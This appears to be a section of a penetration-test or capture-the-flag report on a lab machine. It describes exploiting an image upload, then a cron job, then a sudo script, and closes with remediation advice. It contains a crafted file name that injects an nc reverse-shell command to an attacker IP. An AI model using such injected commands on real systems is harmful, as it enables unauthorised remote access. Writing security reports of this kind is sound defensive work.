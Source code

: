 ## 5. Technical Details

### 5.1 Reconnaissance

Nmap revealed open ports 80, 443, and 22. Directory enumeration identified `/upload.php`, `/photos.php`, and `/backup/backup.tar`. The backup file contained source code, revealing a weak file upload validation in `upload.php`.

### 5.2 Exploitation

A reverse shell was achieved by injecting PHP code into an image’s metadata using `exiftool` and uploading it as `shell.php.jpg`. Accessing `photos.php` triggered the shell, granting `apache` user access.

### 5.3 Post-Exploitation

A cron job running `check_attack.php` was identified, which executed `rm -f` on uploaded files without sanitizing filenames. A crafted filename (`; nc 10.10.14.8 4343 -c bash`) triggered a reverse shell as the `guly` user.

### 5.4 Privilege Escalation

The `guly` user could run `clangename.sh` as root. The script’s weak regex allowed command injection by including a space and a bash command in the `NAME` field, granting a root shell.

## 6. Impact and Risks

- **Initial Access:** The file upload vulnerability allows arbitrary code execution.
- **Privilege Escalation:** Cron job and sudo script vulnerabilities enable root access.
- **System Compromise:** Full control over the system, including access to sensitive files.

## 7. Recommendations

- Validate file uploads by checking MIME types and sanitizing metadata.
- Sanitize filenames in `check_attack.php` to prevent command injection.
- Tighten regex in `clangename.sh` to disallow spaces and special characters.
- Restrict cron job and sudo privileges to minimize attack surfaces.
- Conduct regular security audits and patch management.
